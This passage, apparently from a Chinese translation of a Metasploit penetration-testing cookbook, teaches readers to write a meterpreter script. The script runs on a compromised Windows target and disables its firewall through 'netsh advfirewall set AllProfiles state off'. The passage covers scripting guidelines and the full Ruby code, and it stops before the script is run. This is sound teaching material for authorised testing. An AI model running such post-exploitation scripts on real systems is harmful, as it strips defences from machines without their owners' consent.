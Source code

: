 这是使用 Railgun 作为一个强大工具根据我们的需要调用 Windows API 的一个简短演示。你可以在 MSDN 库中寻找各种有用的 Windows API 调用，并将它们添加到 Railgun 中，增强你的框架的功能。它可以用来调用目标机器上的任何 DLL。在下一个示例中，我们将继续开发我们自己的 meterpreter 脚本。

# 构建一个“Windows 防火墙停用器”meterpreter 脚本

到目前为止，我们已经使用了几个 meterpreter 脚本，比如`killav.rb`和`persistence.rb`。让我们开始讨论开发我们自己的 meterpreter 脚本。编写 Metasploit 中的任何模块都需要 Ruby 知识。你应该对 Ruby 有基本的了解。目前没有足够的文档可以直接学习 meterpreter 脚本编写。最简单和最好的做法是学习 Ruby 语言，同时不断查看各种可用模块的代码。你也可以阅读 Metasploit 开发者指南，了解框架提供的不同库，这些库可以在编写自己的模块时使用。文档可以在[`dev.metasploit.com/redmine/projects/framework/wiki/DeveloperGuide`](http://dev.metasploit.com/redmine/projects/framework/wiki/DeveloperGuide)找到。

我们将在这里开发的脚本是一个 Windows Vista/7 防火墙停用器脚本。它将使用 Windows 命令`netsh`，meterpreter 将通过使用名为`cmd_exec()`的 mixin 在目标机器上执行该命令。

## 准备工作

Meterpreter 脚本在受攻击的客户端上运行，因此您只需专注于通过脚本执行的任务。您不必担心连接或任何其他参数。让我们看看在编写 meterpreter 脚本时应该牢记的一些重要准则

+   **避免全局变量：** 这是在任何框架上编码的一般原则。应避免使用全局变量，因为它们可能会干扰框架变量。只使用实例、局部和常量变量。

+   **使用注释：** 在编写代码时，注释是必不可少的。这可以帮助您跟踪哪个部分负责特定的操作。

+   **包括参数：** 您可能已经注意到在几个示例中，我们如何将参数与脚本一起传递。最基本但有用的参数是`-h`或`help`选项。

+   **打印结果：** 打印操作结果可以证明脚本的执行是成功还是失败。应该广泛使用不同的打印调用，如`print_status, print_error`等，以显示相关信息。

+   **平台验证：** 确保您验证要在其上执行操作的平台。

+   **保持文件约定：** 完成脚本编写后，请将其保存在`/pentest/exploits/framework3/scripts/meterpreter`目录下。遵循框架文件约定可以避免任何冲突。

+   **使用 mixin：** Mixin 是 meterpreter 中的一个重要概念。使用 mixin 可以使我们的脚本看起来更简单、更容易。

在编写 meterpreter 脚本时，您应该牢记这些准则。

让我们打开任何文本编辑器开始编写 Ruby 脚本。如果您正在使用 BackTrack，则可以使用 Gedit 文本编辑器。

## 如何做到...

1.  在文本编辑器中输入以下代码行。在转到解释部分之前，仔细查看脚本，并尝试弄清楚每行的含义。脚本很容易理解。

```
    # Author: Abhinav Singh
    # Windows Firewall De-Activator
    #Option/parameter Parsing
    opts = Rex::Parser::Arguments.new(
    "-h" => [ false, "Help menu." ]
    )
    opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
    print_line "Meterpreter Script for disabling the Default windows Firelwall"
    print_line "Let's hope it works"
    print_line(opts.usage)
    raise Rex::Script::Completed
    end
    }
    # OS validation and command execution
    unsupported if client.platform !~ /win32|win64/i
    end
    begin
    print_status("disabling the default firewall")
    cmd_exec('cmd /c','netsh advfirewall set AllProfiles state off',5) 
    ```

一旦您输入了代码，请将其保存为`myscript.rb`，保存在`/pentest/exploits/framework3/scripts/meterpreter`目录下。

1.  执行此脚本，我们将需要一个 meterpreter 会话。可以使用`run`命令来执行 Ruby 脚本。但是，在使用脚本之前，请确保您在目标机器上拥有系统特权。
```